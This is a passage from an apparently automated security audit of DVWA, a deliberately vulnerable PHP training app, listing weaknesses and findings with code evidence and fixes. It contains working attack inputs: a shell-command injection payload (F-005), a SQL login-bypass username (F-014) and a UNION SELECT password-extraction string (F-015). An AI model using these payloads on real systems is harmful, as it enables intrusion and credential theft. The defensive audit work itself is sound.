- **Structural** — call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers
- **Tactical** — ● [M-018](#m-018) — Validate target host and drop shell invocation

<a id="w-002"></a>
### W-002 — Input handling lacks enforced boundary validation

🟠 **High** · design weakness · confirmed · 2 findings

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Confirmed findings:**

- 🟠 [F-029](#f-029) — Path traversal in source viewer reads

**Practice sites:**

- 🟡 [F-063](#f-063) — Path traversal in help viewer id and locale
- `vulnerabilities/view_source_all.php:14`

**Architecture evidence:** Schema Validation, Allowlist Validation, Source evidence (`vulnerabilities/javascript/source/low.php:13`), Source evidence (`vulnerabilities/exec/source/high.php:7`), Source evidence (`vulnerabilities/exec/source/high.php:20`), Source evidence (`vulnerabilities/exec/source/medium.php:7`) (+1 more)

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction
- **Tactical** — ◕ [M-036](#m-036) — Allowlist module IDs and security levels, ◑ [M-069](#m-069) — Allow-list help ids and check resolved path containment

<a id="w-003"></a>
### W-003 — Frontend rendering lacks enforced output encoding

🟠 **High** · design weakness · confirmed · 12 findings

Browser rendering paths write HTML or DOM content directly without one enforced contextual-encoding or sanitisation boundary. Safety depends on each individual component using the right API.

**Confirmed findings:**

- 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written
- 🟠 [F-010](#f-010) — Reflected cross-site scripting
- 🟡 [F-054](#f-054) — Stored XSS in authbypass user table
- 🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table
- 🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message
- 🟡 [F-058](#f-058) — Reflected script injection
- 🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline

**Practice sites:**

- 🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding
- 🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript
- 🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level
- 🟡 [F-060](#f-060) — Cross-site scripting
- 🟡 [F-061](#f-061) — Reflected XSS
- `vulnerabilities/api/source/medium.php:25`
- `vulnerabilities/csp/source/impossible.php:11`
- `vulnerabilities/fi/file3.php:12`
- `dvwa/includes/dvwaPage.inc.php:406`
- `vulnerabilities/csrf/test_credentials.php:27`

**Architecture evidence:** Template Autoescape, Output Encoding, Content Security Policy, Source evidence (`vulnerabilities/authbypass/authbypass.js:43`)

**Affected components:** [C-03](#c-03), [C-04](#c-04)

**Remediation:**

- **Structural** — use framework-safe rendering by default and isolate any required raw HTML behind one reviewed sanitisation and Trusted Types policy
- **Tactical** — ◕ [M-022](#m-022) — Encode output instead of bypassing the framework sanitizer (F-009), ◕ [M-023](#m-023) — HTML-encode the name parameter on output, ◑ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer (F-054), ◑ [M-061](#m-061) — HTML-encode log fields when rendering the access log, ◑ [M-062](#m-062) — HTML-encode the username before echoing it, ◑ [M-064](#m-064) — Remove user-controlled script src and tighten CSP, ◑ [M-065](#m-065) — Encode output and use per-request CSP nonces, ◑ [M-002](#m-002) — Manual review: verify Stored guestbook name and message persisted without HTML encoding, ◕ [M-024](#m-024) — HTML-encode guestbook fields at render time, ◑ [M-006](#m-006) — Manual review: verify Request URI reflected unescaped into inline JavaScript, ◑ [M-059](#m-059) — JSON-encode server values embedded, ◑ [M-063](#m-063) — HTML-encode the include parameter, ◑ [M-007](#m-007) — Manual review: verify Cross-site scripting via reflected session ID, ◑ [M-066](#m-066) — HTML-encode the session ID before output, ◑ [M-008](#m-008) — Manual review: verify Reflected XSS via id in source viewer heading, ◑ [M-067](#m-067) — Encode or allowlist id before HTML output

<a id="w-004"></a>
### W-004 — Secrets are committed to source instead of a managed store

🟠 **High** · design weakness · confirmed · 8 findings

Cryptographic keys, credentials, and other high-entropy secrets are embedded as literals in source or config rather than resolved at runtime from a managed secret store, so anyone with repository read access obtains reusable signing material and credentials.

**Architectural anti-pattern - Secrets hardcoded in source.** Token keys and database credentials are committed as literals in code and deployment files. Rotating one value does not help while the design keeps secrets in the repository instead of a managed store.

**Confirmed findings:**

- 🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted
- 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file
- 🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token

**Practice sites:**

- 🟠 [F-031](#f-031) — Hardcoded database credentials in test script
- 🟡 [F-037](#f-037) — Hardcoded weak MariaDB root and application credentials
- 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery
- 🟡 [F-047](#f-047) — Hardcoded OAuth client secret and user password
- 🟡 [F-064](#f-064) — Hardcoded and undersized AES-256-GCM token key
- `vulnerabilities/cryptography/source/low.php:41`
- `config/config.inc.php.dist:21`

**Architecture evidence:** Managed Secret Store, Runtime Secret Injection

**Affected components:** [C-01](#c-01), [C-02](#c-02), [C-03](#c-03), [C-04](#c-04)

**Remediation:**

- **Structural** — move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI
- **Tactical** — ◕ [M-021](#m-021) — Generate per-install random initial passwords, ◕ [M-012](#m-012) — docker-compose secrets supplied by reference, ◑ [M-077](#m-077) — Replace static token check with per-user ownership check, ◕ [M-038](#m-038) — Remove test script and rotate DB credentials, ◑ [M-043](#m-043) — Move MariaDB passwords into generated Docker secrets, ◑ [M-045](#m-045) — Load token key from secret storage and rotate, ◑ [M-053](#m-053) — Move credentials to a hashed credential store, ◑ [M-070](#m-070) — Move cryptographic keys to a managed secret store (F-064)

<a id="w-005"></a>
### W-005 — Security-sensitive data uses weak cryptographic primitives

🟠 **High** · implementation weakness · confirmed · 6 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the required security property.

**Confirmed findings:**

- 🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin
- 🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key

**Practice sites:**

- 🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy
- 🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage
- 🟡 [F-049](#f-049) — API user creation sets a fixed default password
- 🟡 [F-066](#f-066) — Broken hash primitive
- `dvwa/includes/dvwaPage.inc.php:651`

**Affected components:** [C-03](#c-03), [C-04](#c-04)

**Remediation:**

- **Structural** — standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◕ [M-019](#m-019) — Use AEAD or signed tokens with secret key, ◑ [M-071](#m-071) — Use authenticated encryption with managed keys, ◕ [M-016](#m-016) — Store passwords with password_hash using bcrypt or Argon2, ◑ [M-001](#m-001) — Manual review: verify Broken MD5/SHA-1 Hash Primitive Usage, ◑ [M-017](#m-017) — Use modern cryptographic hash and KDF algorithms, ◑ [M-055](#m-055) — Require a user-chosen password and hash it adaptively

<a id="w-006"></a>
### W-006 — Application data crosses into executable code

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

An interpreter evaluates application values as code. The affected path mixes data processing with executable program construction instead of constraining callers to predefined operations.

**Practice sites:**

- 🟡 [F-072](#f-072) — Eval of file contents at user-controlled help

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — replace evaluation of application values with a data parser or a fixed set of operations whose arguments remain data
- **Tactical** — ◑ [M-075](#m-075) — Remove server-side evaluation of untrusted input

<a id="w-007"></a>
### W-007 — Privileged attributes lack an enforced write allowlist

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

Model binding accepts caller-selected attributes across a privileged write boundary. The affected binding path does not separate fields callers may change from fields reserved for server-side policy.

**Architectural anti-pattern - Mass-assignment / unscoped object binding.** User update handlers copy caller-supplied fields, including the privilege level, into the user record without an allowlist.

**Practice sites:**

- 🟡 [F-076](#f-076) — Mass assignment of privileged user level

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — define operation-specific write schemas and assign privileged attributes exclusively through server-side policy
- **Tactical** — ◑ [M-079](#m-079) — Allowlist client-controlled fields

<a id="w-008"></a>
### W-008 — Full PHP info page exposed to any authenticated user (phpinfo.php:8)

🟡 **Medium** · implementation weakness · observed-practice

**Practice sites:**

- `phpinfo.php:8`

**Affected components:** [C-04](#c-04)

<a id="w-009"></a>
### W-009 — All repository secrets base64-encoded into public workflow logs

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-027](#f-027) — All repository secrets base64-encoded into public workflow

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Tactical** — ◕ [M-035](#m-035) — Remove secret-echoing workflow and rotate exposed secrets

<a id="w-010"></a>
### W-010 — Login forms send passwords in GET query strings (low.php:8)

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-067](#f-067) — Login forms send passwords in GET query strings

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-072](#m-072) — Accept login credentials only in POST bodies

<a id="w-011"></a>
### W-011 — Unrestricted file upload into web-served directory keeps client name and extensi

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

Unrestricted file upload into web-served directory keeps client name and extension (`low.php:9`)

**Practice sites:**

- 🟠 [F-033](#f-033) — Unrestricted file upload into web-served directory keeps client name

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◕ [M-039](#m-039) — Validate and re-encode uploads with random names

<a id="w-012"></a>
### W-012 — Upload filter trusts client-supplied MIME type (medium.php:14)

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-034](#f-034) — Upload filter trusts client-supplied MIME type

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◕ [M-040](#m-040) — Validate uploads server-side by extension and content

<a id="w-013"></a>
### W-013 — Build pipeline trusts mutable third-party references

🟡 **Medium** · design weakness · design-risk · 2 findings

CI/CD workflows resolve third-party actions and other build dependencies to mutable tags or branches instead of immutable commit digests, so a retagged or compromised upstream runs inside the pipeline with its token and secret scope.

**Practice sites:**

- 🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA
- 🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning
- `.github/workflows/pytest.yml:26`

**Architecture evidence:** Commit-SHA Action Pinning, Dependency Provenance Verification, Source evidence (`.github/workflows/shiftleft-analysis.yml:24`), Source evidence (`.github/workflows/docker-image.yml:16`), Source evidence (`.github/workflows/docker-image.yml:19`), Source evidence (`.github/workflows/docker-image.yml:22`)

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Structural** — pin every third-party action and build dependency to an immutable commit SHA (or a vetted internal mirror) and enforce SHA-pinning in CI
- **Tactical** — ◑ [M-057](#m-057) — Pin all GitHub Actions to full commit SHAs, ◑ [M-058](#m-058) — Pin base images by sha256 digest

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Every finding card shows **Severity · Component · Location**, **Issue**, **Fix**, and **Classification** (with external CWE / OWASP links). **Evidence**, **Root cause**, violated requirements, the weakness, and the trust boundary gap appear when they apply.

**Risk Distribution:** 🔴 Critical: 1 · 🟠 High: 29 · 🟡 Medium: 43 · 🟢 Low: n/a · **Total findings: 73**
*This register counts every finding card below. The Management Summary's risk distribution (Total: 51) counts folded insecure-practice sites under their weakness and adds each design risk once.*
**STRIDE Coverage:** Spoofing: 17 · Tampering: 29 · Repudiation: 0 · Information Disclosure: 13 · Denial of Service: 0 · Elevation of Privilege: 14

The root causes and the fixes to do first are summarized in **Remediation Priorities** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

**Findings index:**<br/>🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks<br/>🟠 [F-001](#f-001) — Missing Anti-CSRF Tokens on State-Changing Actions<br/>🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy<br/>🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin<br/>🟠 [F-007](#f-007) — Seeded accounts use trivially guessable default passwords<br/>🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted<br/>🟠 [F-009](#f-009) — DOM XSS from URL default parameter written<br/>🟠 [F-010](#f-010) — Reflected cross-site scripting<br/>🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding<br/>🟠 [F-012](#f-012) — SQL injection in user details update endpoint<br/>🟠 [F-013](#f-013) — SQL injection<br/>🟠 [F-014](#f-014) — SQL injection in brute-force login query<br/>🟠 [F-015](#f-015) — SQL injection<br/>🟠 [F-016](#f-016) — SQL injection<br/>🟠 [F-017](#f-017) — SQL injection in unquoted numeric context despite escaping<br/>🟠 [F-018](#f-018) — Blind SQL injection<br/>🟠 [F-019](#f-019) — Blind SQL injection<br/>🟠 [F-020](#f-020) — Blind SQL injection in unquoted context despite escaping<br/>🟠 [F-021](#f-021) — Wildcard filename check allows file scheme inclusion<br/>🟠 [F-022](#f-022) — Non-recursive traversal filter bypass in file inclusion<br/>🟠 [F-023](#f-023) — CSRF Referer check bypass<br/>🟠 [F-027](#f-027) — All repository secrets base64-encoded into public workflow<br/>🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file<br/>🟠 [F-029](#f-029) — Path traversal in source viewer reads<br/>🟠 [F-030](#f-030) — Unauthenticated legacy user API version exposes password hashes<br/>🟠 [F-031](#f-031) — Hardcoded database credentials in test script<br/>🟠 [F-033](#f-033) — Unrestricted file upload into web-served directory keeps client name<br/>🟠 [F-034](#f-034) — Upload filter trusts client-supplied MIME type<br/>🟠 [F-035](#f-035) — Unauthenticated CBC token with padding oracle<br/>🟠 [F-036](#f-036) — Unauthenticated database reset<br/>🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage<br/>🟡 [F-037](#f-037) — Hardcoded weak MariaDB root and application credentials<br/>🟡 [F-038](#f-038) — Login allows unlimited password guessing without lockout<br/>🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery<br/>🟡 [F-040](#f-040) — Predictable session identifier generation weak_id<br/>🟡 [F-041](#f-041) — Leftover development bypass value skips CAPTCHA<br/>🟡 [F-042](#f-042) — Open redirect with substring-only target check<br/>🟡 [F-043](#f-043) — Unvalidated open redirect from redirect parameter<br/>🟡 [F-044](#f-044) — Open redirect filter bypass<br/>🟡 [F-045](#f-045) — CAPTCHA completion trusted from client-supplied form field<br/>🟡 [F-046](#f-046) — CBC padding oracle enables token decryption<br/>🟡 [F-047](#f-047) — Hardcoded OAuth client secret and user password<br/>🟡 [F-048](#f-048) — CAPTCHA skipped by posting step 2 directly<br/>🟡 [F-049](#f-049) — API user creation sets a fixed default password<br/>🟡 [F-050](#f-050) — API token endpoint supports the deprecated OAuth<br/>🟡 [F-051](#f-051) — Third-party GitHub Actions pinned by mutable tag instead of commit SHA<br/>🟡 [F-052](#f-052) — Container base images use floating tags without digest pinning<br/>🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript<br/>🟡 [F-054](#f-054) — Stored XSS in authbypass user table<br/>🟡 [F-055](#f-055) — Stored XSS of logged X-Forwarded-For in access log table<br/>🟡 [F-056](#f-056) — Reflected XSS of username in login welcome message<br/>🟡 [F-057](#f-057) — Unencoded HTML injection of include parameter at high CSP level<br/>🟡 [F-058](#f-058) — Reflected script injection<br/>🟡 [F-059](#f-059) — Reflected XSS with static CSP nonce and unsafe-inline<br/>🟡 [F-060](#f-060) — Cross-site scripting<br/>🟡 [F-061](#f-061) — Reflected XSS<br/>🟡 [F-062](#f-062) — Security decisions driven by client-controlled cookie<br/>🟡 [F-063](#f-063) — Path traversal in help viewer id and locale<br/>🟡 [F-064](#f-064) — Hardcoded and undersized AES-256-GCM token key<br/>🟡 [F-065](#f-065) — Repeating-key XOR cipher with hardcoded key<br/>🟡 [F-066](#f-066) — Broken hash primitive<br/>🟡 [F-067](#f-067) — Login forms send passwords in GET query strings<br/>🟡 [F-068](#f-068) — Configuration file copied to backup alongside web content<br/>🟡 [F-069](#f-069) — Container Runs as Root<br/>🟡 [F-070](#f-070) — Workflows omit explicit permissions and inherit default<br/>🟡 [F-071](#f-071) — Missing Workflow Permissions Block<br/>🟡 [F-072](#f-072) — Eval of file contents at user-controlled help<br/>🟡 [F-073](#f-073) — Insecure Direct Object Reference (IDOR)<br/>🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token<br/>🟡 [F-075](#f-075) — Admin check on user update enforced only<br/>🟡 [F-076](#f-076) — Mass assignment of privileged user level<br/>🟡 [F-096](#f-096) — User keeps<br/>🟡 [F-097](#f-097) — Unauthenticated or low-privilege caller uses user-management

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-07"></a><a id="th-09"></a><a id="th-11"></a><a id="th-15"></a><a id="th-16"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-14"></a><a id="th-17"></a><a id="th-18"></a>

### 🔴 Critical (1)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · OS command injection in ping and health connectivity checks

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (7)

**Found by:** survey, scanners and verification ([TC-INPUT-03](#tc-input-03))

**Weakness:** [W-001](#w-001) - Application data builds operating-system commands

**Instances (7):** `vulnerabilities/api/src/HealthController.php`: 88; `vulnerabilities/exec/source/low.php`: 14, 10; `vulnerabilities/exec/source/medium.php`: 23, 19; `vulnerabilities/exec/source/high.php`: 30, 26

**Issue:** Request data is concatenated into shell commands, which gives arbitrary command execution as the web server user. At `vulnerabilities/api/src/HealthController.php:88` an unauthenticated caller POSTs `{"target":"127.0.0.1;id"}` to `/vulnerabilities/api/v2/health/connectivity`.

The front controller routes the request to HealthController::`checkConnectivity` without authentication, and the target goes unvalidated and unescaped into exec("ping -c 4 " . The finding holds 7 places, more than the locations cited here.

**Evidence:** ✓ verified

```
vulnerabilities/api/src/HealthController.php
  85 │ 		if (array_key_exists ("target", $input)) {
  86 │ 			$target = $input['target'];
  87 │
→ 88 │ 			exec ("ping -c 4 " . $target, $output, $ret_var);
  89 │
  90 │ 			if ($ret_var == 0) {
  91 │ 				$response['status_code_header'] = 'HTTP/1.1 200 OK';
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ● [M-018](#m-018) — Validate target host and drop shell invocation

**Classification:** Injection · STRIDE: Tampering · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-03](#tc-input-03) · Rules: INJ-PHP-002 · walkthrough [Walkthrough §3.1](#31-os-command-injection-in-ping-and-health-connectivity-checks)

### 🟠 High (29)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Seeded default accounts with trivial passwords stored as unsalted

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - DVWA web application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:55`

**Found by:** survey and verification ([TC-AUTHN-04](#tc-authn-04))

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** At `dvwa/includes/DBMS/MySQL.php:55`, setup inserts admin with `MD5('password')` and other users with trivial passwords such as abc123 and letmein. The two parts describe two related problems.

An attacker who reads the users table, for example through SQL injection or database exposure, recovers plaintext passwords instantly with rainbow tables or GPU cracking and logs in as those users.

**Evidence:** ✓ verified

```
  53 │
  54 │ $insert = "INSERT INTO users VALUES
→ 55 │ 	('1','admin','admin','admin',MD5('password'),'{$av**** (21 chars)', NOW(), '0'),
  56 │ 	('2','Gordon','Brown','gordonb',MD5('abc123'),'{$avatarUrl}gordonb.jpg', NOW(), '0'),
  57 │ 	('3','Hack','Me','1337',MD5('charley'),'{$avatarUrl}1337.jpg', NOW(), '0'),
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-021](#m-021) — Generate per-install random initial passwords

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Static database credentials hardcoded in compose file

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `compose.yml:31`

**Found by:** survey, scanners and verification ([TC-DATA-03](#tc-data-03))

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** At `compose.yml:31` the MariaDB root password and the dvwa application user password are written as literals in the service environment. Anyone who can read the repository learns them, and every deployment that uses `compose.yml` unchanged shares the same known credentials.

The db service publishes no host ports and sits only on the internal dvwa network, and the web port is bound to `127.0.0.1` (line 25).

**Evidence:** ✓ verified

```yaml
  29 │     image: docker.io/library/mariadb:10
  30 │     environment:
→ 31 │       - MYSQL_ROOT_PASSWORD=dvwa
  32 │       - MYSQL_DATABASE=dvwa
  33 │       - MYSQL_USER=dvwa
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-012](#m-012) — docker-compose secrets supplied by reference

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-DATA-03](#tc-data-03) · Rules: IAC-023

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Hardcoded database credentials in test script

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli/test.php:4`

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** `test.php` embeds a DB host, username and password literal, and prints first names and passwords from the users table without any authentication call. Anyone who reads the repository, or browses to the script where mssql functions exist, gets reusable credentials and password data.

**Evidence:** ✓ verified

```
  2 │ $host = "192.168.0.7";
  3 │ $username = "dvwa";
→ 4 │ $password = "**** (8 chars)";
  5 │
  6 │ mssql_connect($host, $username, $password);
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-038](#m-038) — Remove test script and rotate DB credentials

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Passwords hashed with unsalted MD5 and no strength policy

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (3)

**Found by:** survey, scanners and verification ([TC-AUTHN-04](#tc-authn-04))

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Instances (3):** `vulnerabilities/captcha/source/impossible.php`: 14; `vulnerabilities/csrf/source/impossible.php`: 29; `login.php`: 27

**Issue:** Passwords are stored and compared as unsalted `MD5`. This happens in the password change, at `vulnerabilities/csrf/source/impossible.php:29` (every CSRF level, including impossible, stores unsalted md5) and at `login.php:27`. The finding holds 3 places.

**Evidence:** ✓ verified - A non-iterating hash is used for password storage.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-016](#m-016) — Store passwords with password_hash using bcrypt or Argon2

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-PHP-001

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Session token in AES-ECB without integrity allows forged admin

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/medium.php:3`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** Session tokens are JSON encrypted with AES-128-ECB under a hardcoded key and have no MAC. An attacker splices 16-byte blocks from captured tokens, for example Sweep's user field with Sooty's admin level and a valid expiry, and submits the forged token to be accepted as admin Sweep.

**Evidence:** ✓ verified - A broken or non-password cryptographic primitive is configured on this path.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◕ [M-019](#m-019) — Use AEAD or signed tokens with secret key

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · SQL injection in user details update endpoint

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/authbypass/change_user_details.php:48`

**Issue:** A caller POSTs JSON to `change_user_details.php`. The `first_name`, surname and id fields are concatenated directly into an UPDATE statement, so the caller can rewrite any users row, for example passwords, or extract data through injected subqueries.

**Evidence:** ✓ verified

```
  46 │
  47 │ $query = "UPDATE users SET first_name = '" . $data->first_name . "', last_name = '" .  $data->surname . "' where user_id = " . $data->id . "";
→ 48 │ $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  49 │
  50 │ print json_encode (array ("result" => "ok"));
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-025](#m-025) — Use prepared statements for user update query

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.2](#32-sql-injection-in-user-details-update-endpoint)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/bac/source/low.php:81`

**Issue:** An authenticated user sends a bac profile request at low or medium level with an X-Forwarded-For header containing a quote and SQL; the value is concatenated into the INSERT into `bac_log`, letting the attacker run stacked subqueries or corrupt log data.

**Evidence:** ✓ verified

```
  79 │             $log_query = "INSERT INTO bac_log (user_id, target_id, ip_address) VALUES
  80 │                         ({$current_user_id}, {$target_id}, '{$ip}')";
→ 81 │             mysqli_query($GLOBALS["___mysqli_ston"], $log_query);
  82 │         } catch (Exception $e) {
  83 │             // Silently fail if logging doesn't work
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-026](#m-026) — Bind the logged IP with a prepared statement

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.3](#33-sql-injection-in-low)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · SQL injection in brute-force login query

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/brute/source/low.php:13`

**Issue:** An attacker submits username admin'# with any password; the unescaped value closes the string and comments out the password check, logging in as admin and enabling arbitrary SQL reads.

**Evidence:** ✓ verified

```
  11 │ 	// Check the database
  12 │ 	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
→ 13 │ 	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  14 │
  15 │ 	if( $result && mysqli_num_rows( $result ) == 1 ) {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-027](#m-027) — Use PDO prepared statements for the login query

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.4](#34-sql-injection-in-brute-force-login-query)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli/source/high.php:11`

**Issue:** An authenticated user POSTs `id=1`' `UNION SELECT user,password FROM users`-- - to `session-input.php`, which stores it in \$_SESSION. `sqli/source/high.php` then puts the session value inside quotes in the SELECT and runs it.

**Evidence:** ✓ verified

```
   9 │ 			// Check database
  10 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
→ 11 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
  12 │
  13 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-028](#m-028) — Parameterize the query and validate the session ID

